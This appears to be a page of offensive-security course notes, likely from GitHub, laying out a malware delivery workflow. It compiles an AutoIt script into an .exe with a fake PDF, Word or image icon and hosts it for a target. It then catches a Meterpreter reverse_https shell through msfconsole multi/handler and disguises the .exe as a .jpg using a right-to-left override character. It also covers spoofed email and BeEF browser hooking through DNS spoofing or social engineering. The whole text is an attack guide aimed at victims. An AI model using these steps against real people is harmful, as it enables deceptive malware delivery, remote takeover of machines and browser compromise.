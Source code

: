 ### Compiling the created script
(If Veil is installed, autoit will be installed automaticly)
* Change extention of the script from `.txt` to `.au3`.
* Search for compile; click the compile autoit program
* Source: created .au3 script
  Destination: .exe file
* use www.iconarchive.com to download and use a custom icon. (in case of an pdf, word,...)
  in case of an image: go to www.rw-designer.com/image-to-icon to an `.ico` file.
* Put the file you want the target to download on a webserver.
#### Wait for incomming connections
```
> msfconsole
> use exploit/multi/handler
> show options
> set PAYLOAD windows/meterpreter/reverse_https
LHOST eigen ip
LPORT 8080
> exploit
```

### Spoofing .exe file to any other file type
For example:
* You have a file: gtr.exe and you want to make it a .jpg
* We need to use a `right-to-left character`.
##### How to find `right-to-left character`
Search for characters, search for right to left override and copy the character.

* Name the file gtrgpj.exe and put a `right-to-left character` between r and g.
=> gtrexe.jpg
* Zip the file otherwise, your internetbrowser will remove the `right-to-left character`.

## Send mails as any person you want

Using Maltego, you can find people close to your target.

* search for https://anonymousemail.me

## Beef Framework

Browser exploitation framework.

Click the Beef icon in Kali.
Username `beef`
Password `beef`

How to hook browsers: when the target runs a command
(via dns spoof, or social engineering)

```
go to /var/www/html
modify index.html
copy and paste the code from beef (next to Example:)
chance the ip address to the ip address of the target.
Every target that connects to that browser, will be hooked to beef.
start the webserver: `service apache2 start`
Use DNS Spoofing or social engineering to let your target browse your website.
```
